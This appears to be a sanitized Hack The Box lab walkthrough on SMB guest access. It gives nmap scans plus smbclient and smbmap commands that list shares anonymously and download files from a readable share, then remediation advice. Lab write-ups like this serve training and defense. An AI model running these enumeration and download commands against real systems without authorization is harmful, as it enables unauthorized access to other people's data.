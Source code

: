 # HTB — SMB Guest Access | Professional Walkthrough

**Difficulty:** Easy  •  **Category:** Access Control / Enumeration  •  **Focus:** SMB (TCP/445), Guest/Anonymous

> Sanitized: no flags or live details.

## Executive Summary
SMB permits **Guest/Anonymous** access to at least one share, enabling unauthenticated listing/download. Classic access control issue.

## Phases (condensed)
**Recon (ports):**
```bash
sudo nmap -Pn -sS --min-rate 3000 -p- <TARGET_IP> -oA nmap/full
```
**SMB enumeration:**
```bash
sudo nmap -Pn -sS -sV -sC -p445,139 <TARGET_IP> -oA nmap/sv
smbclient -L //<TARGET_IP> -N
smbmap -H <TARGET_IP> -u "" -p ""
```
**Access readable share:**
```bash
smbclient //<TARGET_IP>/<Share> -N
smb: \> ls
smb: \> get <file>
```

## Remediation (summary)
Disable Guest/Anonymous; least-privilege ACLs; disable SMBv1; consider signing/encryption; remove sensitive files from shares.

See `FINDINGS.md` for full details.
